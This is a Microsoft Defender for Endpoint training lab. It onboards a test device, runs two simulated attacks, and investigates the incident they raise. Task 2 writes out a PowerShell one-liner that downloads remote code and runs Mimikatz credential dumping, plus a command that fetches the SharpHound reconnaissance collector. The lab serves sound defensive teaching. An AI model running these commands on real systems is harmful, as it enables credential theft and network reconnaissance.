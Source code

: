 ```yaml
---
lab:
    title: 'Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint'
    module: 'Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint'
---
```


# Learning Path 2 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.


>**Note:** An **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** is available that allows you to click through this lab at your own pace. You may find slight differences between the interactive simulation and the hosted lab, but the core concepts and ideas being demonstrated are the same. 


### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft 365 Defender portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and login as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears in the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. Select **Settings** from the left menu bar, then from the Settings page select **Endpoints**.

1. Select **Onboarding** in the Device management section and make sure *"Windows 10 and 11"* is selected as operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the windows search bar of the WIN1 virtual machine, type **CMD** and choose to **Run as Administrator** on the right pane for the Command Prompt app. 

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it. **Note:** The window closes automatically after running the script.


### Task 2: Simulated Attacks

In this task, you will run two simulated attacks from the `Atomic Red Team` using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

>**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus.


<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->


### Task 3: Investigate the Attacks

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called "Multiple threat families detected on one endpoint" is in the right pane. Select the incident name to load its details.

    >**Note:** You should see both *Bloodhound* and Mimikatz* alerts in the **Alerts** pane. In **Assets/Devices**, the *win1* computer will now have a **Risk level** of *High*..

1. Select the **Manage incident** button and a new window blade appears. 

1. Under **Incident tags** type "Tutorial" and select **Simulation (Create new)** to create a new tag. 

1. Select the toggle **Assign to**  and add your user account (Me) as owner of the incident. 

1. Under **Classification**, expand the drop-down menu. 

1. Under **Informational, expected activity**, select **Security testing**. 

1. Add any comments if desired and select **Save** to update the incident and finish.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. The *Attack story* tab displays the *Incident graph*. The **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

>**Warning:** The simulated attacks here are an excellent source of learning through practice. Only perform the attacks in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

## You have completed the lab.
